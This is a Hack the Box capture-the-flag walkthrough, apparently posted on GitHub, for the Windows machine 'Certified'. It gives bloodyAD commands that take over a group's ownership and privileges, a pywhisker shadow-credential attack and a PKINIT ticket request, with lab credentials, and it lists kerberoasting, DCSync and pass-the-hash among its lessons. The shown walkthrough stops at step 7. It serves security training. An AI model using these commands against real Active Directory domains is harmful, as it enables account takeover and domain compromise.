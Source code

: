 # Certified

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
![image](https://github.com/user-attachments/assets/3d450477-a74d-497b-b96d-dacf1a0f743d)

2. judith.mader has WriteOwner permissions on management group which has GenericWrite privs on management_svc account
![image](https://github.com/user-attachments/assets/9f75d80d-89af-40a5-9972-eb0ff164c551)

3. change owner of management group to judith
	i. `python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 set owner "Management" judith.mader`
4. then give GenericAll privs to judith
	i. `python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add genericAll Management judith.mader`
5. then add judith to the management group
	i. `python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add groupMember Management judith.mader`
![image](https://github.com/user-attachments/assets/83e0b353-2b33-456e-be7e-4c4f9fd180cf)

6. now can run shadow credential attack on management_svc
  	i. 'python3 pywhisker.py -d certified.htb -u judith.mader -p judith09 -t management_svc -a add --dc-ip 10.129.130.180'
![image](https://github.com/user-attachments/assets/445020c8-2150-461e-ba74-1bd4d5fdaf5b)

7. use PKINIT tools to get TGT for management_svc. Got a clock skew error so fix clock skew and then run again
	i. 'python3 gettgtpkinit.py -cert-pfx PFX_FILE -pfx-pass PFX_PASS certified.htb/management_svc -dc-ip 10.129.130.180 ccache'
![image](https://github.com/user-attachments/assets/0931b573-328f-4fd0-a0c3-2e4d937da20c)


 
